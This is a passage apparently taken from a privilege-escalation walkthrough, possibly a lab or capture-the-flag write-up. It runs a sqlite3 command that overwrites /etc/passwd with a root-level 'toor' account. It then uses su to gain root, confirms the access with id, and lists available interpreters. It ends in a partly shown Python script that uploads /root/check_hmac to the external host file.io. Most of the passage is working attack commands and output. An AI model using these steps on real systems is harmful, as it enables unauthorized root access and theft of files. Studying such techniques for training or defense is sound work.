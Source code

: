 > [!TIP] Python can generate crypt(3) hashes.
> The following example uses the password 'root' with salt 'gh':
> ~~~
> python3 -c 'import crypt; print(crypt.crypt("root","gh"))'
> ~~~

```
passwd=/etc/passwd; sqlite3 /dev/null -cmd ".output $passwd" 'select "toor:ghTxbhWkM20DQ:0:0:root:/root:/bin/bash";'
```

> Then, we use the 'su' command with our configured password 'root' to elevate our privileges:

```
su toor
```

> ~~~
> Password:
> ~~~
> 
> enter the password 'root'

```
root
```

> ~~~
> bash: cannot set terminal process group (9): Inappropriate ioctl for device
> bash: no job control in this shell
> 
> The 'id' command confirms we are root user (uid=0)

```
id
```

> ~~~
> uid=0(toor) gid=0(root) groups=0(root)
> ~~~
> 
> Check for advanced languages running on the server that we may use: 

```
find /*bin /usr/*bin -type f | grep -P "(python|perl|ruby|wget|curl)"
```

> ~~~
> /usr/bin/perl5.36.0
> /usr/bin/perl
> /usr/bin/python3.11
> ~~~
> 
> We can exfiltrate files using python3.11 with the following script:

```
import urllib.request
import json
import os

url = 'https://file.io'
file_path = '/root/check_hmac'
boundary = '-------------boundary'

# Prepare the form data
with open(file_path, 'rb') as f:
    form_data = (
        f'--{boundary}\r\n'
        f'Content-Disposition: form-data; name="file"; filename="{os.path.basename(file_path)}"\r\n'
        'Content-Type: application/octet-stream\r\n'
```